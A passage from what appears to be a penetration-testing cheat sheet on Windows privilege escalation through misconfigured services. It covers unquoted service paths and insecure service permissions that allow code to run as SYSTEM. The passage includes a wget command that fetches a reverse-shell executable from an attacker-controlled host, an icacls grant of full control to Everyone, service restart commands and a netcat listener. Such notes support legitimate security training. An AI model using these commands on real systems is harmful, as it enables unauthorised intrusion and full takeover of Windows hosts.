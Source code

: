 ```powershell
wget http://LOCAL_IP:8000/rev-svc.exe -O rev-svc.exe
```

**Grant Full access to everyone group**
```cmd
icacls WService.exe /grant Everyone:F
```

**Restart a service**
```
sc start SERVICE_NAME
sc stop SERVICE_NAME
```

or in powershell (sc is aliased to Set-Content)
```powershell
sc.exe start SERVICE_NAME
sc.exe stop SERVICE_NAME
```
or 
```powershell
Start-Service SERVICE_NAME
Stop-Service SERVICE_NAME
```

**Start the listener**
```bash
nc -lvnp LOCAL_PORT 
```


### Unquoted Service Paths

If the executable run by the service isn't quoted properly and contains spaces.  
The file is ambiguous. 

Example : the path is **C:\MyPrograms\Disk Sorter Enterprise\bin\disksrs.exe**
The SCM doesn't know wich version to execute

| Command                                                | Argument 1                 | Argument 2                 |
| :----------------------------------------------------- | :------------------------- | :------------------------- |
| C:\MyPrograms\Disk.exe                                 | Sorter                     | Enterprise\bin\disksrs.exe |
| C:\MyPrograms\Disk Sorter.exe                          | Enterprise\bin\disksrs.exe |                            |
| C:\MyPrograms\Disk  Sorter  Enterprise\bin\disksrs.exe |                            |                            |

The SCM will search for option 1 to option 3 in order  
This means that we can create an executable 

Follow Insecure Permissions steps

#### Insecure Service Permissions
If the DACL allows you to modify the configuration of a service, you will be able to reconfigure the service.  
This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM !
